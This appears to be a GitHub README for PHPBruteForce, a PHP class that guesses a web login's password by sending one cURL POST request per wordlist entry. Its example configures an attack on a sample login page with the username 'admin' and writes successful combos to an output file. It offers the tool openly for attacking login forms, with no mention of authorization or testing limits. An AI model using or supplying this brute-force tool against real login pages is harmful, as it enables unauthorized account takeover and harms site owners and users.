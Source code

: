 # PHPBruteForce
With this PHP class, you can brute-force a login with a wordlist. 

More information
================
You specify a wordlist to use and it will send a POST request for each line of the wordlist. It can only be used for brute-forcing passwords, so you have to know the username of an account. This uses cURL.

An example
==========
``` php
<?php

require 'app\bruteforce.class.php'; // Require in the Brute Force class

BruteForce::init(array(
    'url'         => 'http://target.com/login.php', // Login page to attack.
	'username'    => 'username', // The username in the POST request.
	'password'    => 'password', // The password in the POST request.
	'adminname'   => 'admin', // So as I said, this class can only brute-force passwords. So you have to specify a username, here you must specify the username.
	'wordlist'    => 'wordlist/wordlist.txt', // Path to the wordlist.
	'failcontent' => 'Error', // Content of page when logging in fails.
	'outputfile'  => 'output/output.txt', // Path to the output file, here will the matching combo('s) be stored.
	'timezone'    => 'Europe/Amsterdam' // Timezone.
));

$bf = new BruteForce(); // Instanciate the class.
$bf->attack(); // BOOM! ATTACK!

?>
```
For a better example, take a look in the "example" directory.

